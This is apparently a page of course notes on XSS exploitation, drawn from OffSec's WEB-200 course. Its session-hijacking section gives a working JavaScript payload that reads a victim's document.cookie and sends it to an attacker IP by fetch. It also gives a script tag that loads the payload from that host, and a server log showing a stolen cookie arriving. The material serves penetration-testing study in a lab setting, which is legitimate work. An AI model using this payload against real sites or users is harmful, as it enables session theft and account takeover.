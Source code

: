 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Exploitation

> _All the content below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

{% hint style="warning" %}
`.js` files containing pure JavaScript payloads need to be used with a tag that will automatically execute them, e.g. `<script>`. They cannot be used with Client XSS vulnerabilities that use `innerHTML`.
{% endhint %}

## Session Hijacking

We can create a malicious JavaScript file and exfiltrate the target's session cookie.

{% code title="xss.js" overflow="wrap" %}
```javascript
// save the value of the cookie in a variable
let cookie = document.cookie
// URL-encode the variable
let encodedCookie = encodeURIComponent(cookie)

// make a GET request to our attacker machine exfiltrating the cookie
fetch("http://192.168.45.214/exfil?data=" + encodedCookie)
```
{% endcode %}

We can serve the payload using the same script as above.

```javascript
<script src="http://192.168.45.214/xss.js"></script>
```

When the target clicks the malicious link, we will receive their cookie.

{% code overflow="wrap" %}
```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.198.101 - - [05/Aug/2024 12:07:13] "GET /xss.js HTTP/1.1" 200 -
192.168.198.101 - - [05/Aug/2024 12:07:13] code 404, message File not found
192.168.198.101 - - [05/Aug/2024 12:07:13] "GET /exfil?data=session%3DSomeExampleCookie HTTP/1.1" 404 -
```
{% endcode %}
